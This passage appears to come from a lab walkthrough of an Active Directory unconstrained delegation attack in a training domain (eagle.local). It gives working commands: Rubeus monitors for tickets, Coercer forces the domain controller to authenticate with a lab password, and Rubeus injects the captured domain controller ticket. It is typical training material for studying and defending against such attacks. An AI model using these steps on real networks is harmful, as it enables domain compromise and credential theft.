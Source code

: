 Example Output:

```
samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```

#### 2. 🛰️ Monitor for TGTs on a Compromised UD Machine

On `WS001`, run **Rubeus** to monitor incoming tickets:

```powershell
.\Rubeus.exe monitor /interval:1
```

Sample Output:

```
[*] 18/12/2022 22.37.09 UTC - Found new TGT:
User         : bob@EAGLE.LOCAL
StartTime    : 18/12/2022 23.30.09
```

#### 3. 🚨 Trigger Coercion with Coercer

On the attacker machine (e.g., Kali), use **Coercer**:

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

Expected Output:

```
[>] Pipe '\PIPE\lsarpc' is accessible!
[>] Pipe '\PIPE\spoolss' is accessible!
[+] All done!
```

#### 4. 🎯 Capture the Domain Controller's TGT

Rubeus on `WS001` will now detect the DC’s TGT:

```
[*] 18/12/2022 22.55.52 UTC - Found new TGT:
User         : DC1$@EAGLE.LOCAL
StartTime    : 18/12/2022 23.30.21
```

#### 5. 🛠️ Use the TGT for Authentication

Inject the ticket with **Rubeus**:

```powershell
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
```
